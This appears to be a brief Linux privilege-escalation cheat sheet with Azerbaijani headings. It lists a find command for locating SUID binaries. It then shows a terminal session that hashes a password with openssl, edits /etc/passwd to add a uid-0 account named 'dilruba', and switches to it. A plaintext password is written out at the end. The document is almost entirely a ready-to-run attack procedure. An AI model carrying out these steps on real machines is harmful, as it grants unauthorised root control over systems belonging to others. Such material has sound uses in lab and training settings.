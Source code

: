 ## SHOWING SUID

# find / -perm -u=s -type f 2>/dev/null

## ROOTA QALXMAQ etc/passwd -e yaza biliriksə
'''
user7@polobox:/$ openssl passwd -1
Password: 
Verifying - Password: 
$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0
user7@polobox:/$ ^C
user7@polobox:/$ nano /etc/passwd
user7@polobox:/$ su dilruba
'''

# dilruba:$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0:0:0:root:/root:/bin/bash


# passwd----dil1123
